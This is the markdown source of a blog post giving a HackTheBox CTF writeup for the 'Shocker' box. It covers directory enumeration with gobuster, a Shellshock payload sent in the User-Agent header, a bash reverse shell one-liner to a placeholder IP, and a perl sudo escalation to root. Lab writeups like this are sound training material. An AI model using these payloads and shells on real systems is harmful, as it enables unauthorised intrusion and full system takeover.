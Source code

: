 ```yaml
---
layout: post
title:	"Shocker Writeup"
date:	2018-09-13 03:00:00
categories:
    - writeups
tags:
    - ctf
    - boot2root
    - hackthebox
---
```

<head>
	<title> Shocker Writeup | HackTheBox </title>
</head>
<title> Shocker Writeup </title>
![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/logo.png)

## i. Port Scan

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/ports.png)

## ii. Enumeration / Low Priv Shell

Starting off with http, browsing to host:

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/http.png)

Nothing interesting, let's see if we can find any hidden directories using `gobuster`

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/gobuster1.png)

Wait... nothing found? That's because of two reasons: 
- gobuster by default does not show pages with 403 Status Codes (Forbidden). 
- the way that this apache is setup is that it'll report directories that do not have a / appended as 404.

Luckily for us, gobuster has those switches built-in. `-f to append directory flashes, and -s <status> for custom status codes`

Running gobuster with those two options:

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/gobuster2.png)

~~~
$ gobuster -u http://10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 25 -f -s 403
~~~

Seems like we found a new directory, `cgi-bin`, navigating to it we get the 403 mentioned before.

Let's see if we can use gobuster to find any files in the directory. Typically there are .sh files in /cgi-bin/, so we can use `-x` in gobuster for custom extensions.

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/gobuster3.png)

Navigating to user.sh:

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/download.png)

Downloading the file, and looking at the contents, we can see that the script is executing uptime when being called:

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/uptime.png)

Let's try testing if the page is vulnerable to Shellshock since bash is involved.

~~~
Two great reads on how Shellshock works & how it's exploited:
https://www.symantec.com/connect/blogs/shellshock-all-you-need-know-about-bash-bug-vulnerability
https://security.stackexchange.com/questions/68122/what-is-a-specific-example-of-how-the-shellshock-bash-bug-could-be-exploited
~~~

Using Burp's repeater would make this easier, as we do not have to download the file every time to see the output:

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/burp1.png)

The payload that I'm going to be using: 
~~~
() { :; }; echo; /bin/ls

If you want to execute another command, make sure you include the full path. ($ which command)
~~~

This will list the contents in the directory. I'm going to insert the payload into User-Agents. (You can use several HTTP-Headers such as User-Agent, Cookie, Accept, etc.)

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/shellshock.png)

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/response.png)

Looking at the response, we see that it prints out the directory contents, which means we have `command execution`

In order to get a low-privilege shell, I am going to use the bash reverse shell one-liner.

~~~
$ bash -i >& /dev/tcp/YOURIP/PORT 0>&1

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
~~~

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/request2.png)

Looking at our listener:

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/revshell.png)

## iii. Privilege Escalation

While enumerating the system, I checked `sudo -l` to see what commands can be ran as root:

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/sudo.png)

We can run perl as root without a password.

Using a perl one-liner to spawn a shell with root privileges.

~~~
perl —e 'exec "/bin/sh";'

https://netsec.ws/?p=337
~~~
You won't see any output at first, but try executing a command.

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/root.png)

##. iv. Conclusion

This box is great practice for Shellshock. Though, it's hard to find it in the wild nowadays, it's still a good idea to add it to your foundation.

~~~
Sources / Links:
[0]: https://www.symantec.com/connect/blogs/shellshock-all-you-need-know-about-bash-bug-vulnerability
[1]: https://security.stackexchange.com/questions/68122/what-is-a-specific-example-of-how-the-shellshock-bash-bug-could-be-exploited
[2]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[3]: https://netsec.ws/?p=337
~~~


